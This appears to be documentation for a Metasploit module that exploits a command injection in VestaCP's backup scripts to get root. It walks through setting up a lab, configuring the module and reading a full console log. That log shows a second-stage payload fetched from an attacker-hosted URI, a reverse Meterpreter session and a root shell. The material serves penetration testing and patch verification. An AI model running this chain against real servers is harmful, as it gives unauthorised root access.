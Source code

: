 ## Vulnerable Application
This module exploits command injection vulnerability in v-list-user-backups bash script file. Low privileged authenticated users can execute arbitrary commands under the context of the root user.

To exploit this vulnerability, an authenticated attacker with low privileges can request VestaCP backup a file whose file name starts with a '.', followed by the ';' character to escape the current command, and finally the command they wish to execute. During the user backup process, this file name will be evaluated by the v-backup-user bash script, which will not perform appropriate input validation prior to passing this file name to an eval() call. As result, when an attacker tries to list existing backups the injected command will be executed by the v-backup-user bash script and will result in the attacker's injected command being executed as the root user.

## Installing the Vulnerable Application on Ubuntu 18.03 LTS

You can install Vesta Control Panel on Ubuntu 18.04 LTS server with the following commands:

```
ssh root@your.server
curl -O http://vestacp.com/pub/vst-install.sh
bash vst-install.sh
```

Once you have finished the installation, perform the following actions in order to create a unprivileged user:

1 - Go to https://*IP ADDR*:8083/

2 - Login with your administrator account.

3 - Click on the "User" section under the top navigation menu. When you move your mouse over the text for
the "User" section, it will turn orange. This is the link that you need to click!

4 - The URL in your browser should now be https://*IP ADDR*:8083/list/user/

5 - Click on the green plus sign on the left side of the page. When you move your mouse
over this button, it will say "ADD USER".

6 - In the following user creation form that appears, enter values for the "user", "password", "email", "first name",
and "last name" fields. Leave package and language options as is, as these fields do not affect exploitation.

7 - Log out of your admin account.

8 - Browse to https://*IP ADDR*:8083/

9 - Verify that the new low privileged user has been created and that you can log in using their credentials.



## Verification Steps

A successful check of the exploit will look similar to the output shown below:

1. Start `msfconsole`
2. `use exploit/linux/http/vestacp_exec`
3. Set `RHOST`
4. Set `LHOST`
4. Set `USERNAME`
4. Set `PASSWORD`
4. Set `SRVHOST`
4. Set `SRVPORT`
7. Run `exploit`
8. **Verify** that you are seeing `Successfully authenticated to the FTP service` in the console.
9. **Verify** that you are seeing `Successfully uploaded the payload as a file name` in the console.
9. **Verify** that you are seeing `Successfully authenticated to the HTTP Service` in the console.
9. **Verify** that you are seeing `Scheduled backup has ben started. Exploitation may take up to 5 minutes.` in the console.
9. **Verify** that you are seeing `It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...` in the console.
9. **Verify** that you are seeing `First stage is executed ! Sending 2nd stage of the payload` in the console.
15. **Verify** that you are getting a Meterpreter session.

## Ubuntu 18.04 LTS with VestaCP 0.9.26

```
msf5 > use exploit/linux/http/vestacp_exec
msf5 exploit(linux/http/vestacp_exec) > set RHOSTS 192.168.74.218
RHOSTS => 192.168.74.218
msf5 exploit(linux/http/vestacp_exec) > set USERNAME user11
USERNAME => user11
msf5 exploit(linux/http/vestacp_exec) > set PASSWORD qwe123
PASSWORD => qwe123
msf5 exploit(linux/http/vestacp_exec) > set LHOST 192.168.74.1
LHOST => 192.168.74.1
msf5 exploit(linux/http/vestacp_exec) > set SRVHOST 192.168.74.1
SRVHOST => 192.168.74.1
msf5 exploit(linux/http/vestacp_exec) > set SRVPORT 8081
SRVPORT => 8081
msf5 exploit(linux/http/vestacp_exec) > run
[*] Exploit running as background job 32.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.74.1:4444
[*] 192.168.74.218:8083 - Using URL: http://192.168.74.1:8081/poSeL7s
msf5 exploit(linux/http/vestacp_exec) > [*] 192.168.74.218:8083 - Second payload download URI is http://192.168.74.1:8081/poSeL7s
[+] 192.168.74.218:21 - Successfully authenticated to the FTP service
[+] 192.168.74.218:21 - The file with the payload in the file name has been successfully uploaded.
[*] 192.168.74.218:8083 - Retrieving cookie and csrf token values
[+] 192.168.74.218:8083 - Cookie and CSRF token values successfully retrieved
[*] 192.168.74.218:8083 - Authenticating to HTTP Service with given credentials
[+] 192.168.74.218:8083 - Successfully authenticated to the HTTP Service
[*] 192.168.74.218:8083 - Starting scheduled backup. Exploitation may take up to 5 minutes.
[+] 192.168.74.218:8083 - Scheduled backup has been started !
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[+] 192.168.74.218:8083 - First stage is executed ! Sending 2nd stage of the payload
[*] Sending stage (53755 bytes) to 192.168.74.218
[*] Meterpreter session 8 opened (192.168.74.1:4444 -> 192.168.74.218:58790) at 2020-04-11 14:35:23 +0300

msf5 exploit(linux/http/vestacp_exec) > sessions -i 8
[*] Starting interaction with 8...

meterpreter > shell
Process 42978 created.
Channel 1 created.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
meterpreter > shell
[+] 192.168.74.218:8083 - It seems scheduled backup is done ..! Triggering the payload <3

#
```
